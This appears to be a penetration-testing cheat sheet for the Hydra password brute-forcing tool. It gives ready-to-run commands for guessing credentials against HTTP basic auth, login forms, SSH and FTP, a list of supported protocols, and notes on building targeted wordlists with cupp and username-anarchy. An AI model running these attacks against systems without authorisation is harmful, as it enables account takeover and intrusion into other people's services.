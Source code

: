 # Hydra

A brute force online password cracking program; a quick system login password 'hacking' tool. 

```bash
https://github.com/vanhauser-thc/thc-hydra
```

## Hydra Commands

### Hydra Help
```bash
hydra -h
```
### Basic Auth Brute Force

#### Combined Wordlist
```bash
hydra -C wordlist.txt SERVER_IP -s PORT http-get /
```
#### User and Pass Wordlists
```bash
hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /
```
### Login Form Brute Force
#### Static User and Pass Wordlist
```bash
hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```
### SSH Brute Force
#### User and Pass Wordlist
```bash
hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4
```
### FTP Brute Force
#### User and Pass Wordlist
```bash
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1
```

* FTP

```bash
hydra -l user -P <WORDLIST> ftp://10.10.10.10
```

* SSH

```bash
hydra -l <USERNAME> -P <WORDLIST> 10.10.10.10 -t 4 ssh
```

* Post Web Form

```bash
hydra -l <USERNAME> -P <WORDLIST> 10.10.10.10 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```



### Supported Protocols for Brute Force

* Asterisk
* AFP
* Cisco AAA
* Cisco auth
* Cisco enable
* CVS
* Firebird
* FTP
* HTTP-FORM-GET
* HTTP-FORM-POST
* HTTP-GET
* HTTP-HEAD
* HTTP-PROXY
* HTTPS-FORM-GET
* HTTPS-FORM-GET
* HTTPS-GET
* HTTPS-HEAD
* HTTPS-POST
* HTTP-Proxy
* ICQ
* IMAP
* IRC
* LDAP
* MS-SQL
* NCP
* NNTP
* Oracle Listener
* Oracle SID
* Oracle
* PC-Anywhere
* PCNFS
* POP3
* POSTGRES
* RDP
* Rexec
* Rlogin
* Rsh
* RTSP
* SAP/R3
* SIP
* SMB
* SMTP
* SMTP Enum
* SNMP v1+v2+v3
* SOCKS5, SSH (v1 and v2)
* SSHKEY
* Subversion
* Teamspeak (TS@)
* Telnet
* VMware-Auth
* VNC
* XMPP


cupp -i
sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
sed -ri '/[0-9]+/!d' william.txt            # remove no numbers
git clone https://github.com/urbanadventurer/username-anarchy.git
./username-anarchy Bill Gates > bill.txt
F=<form name='login'

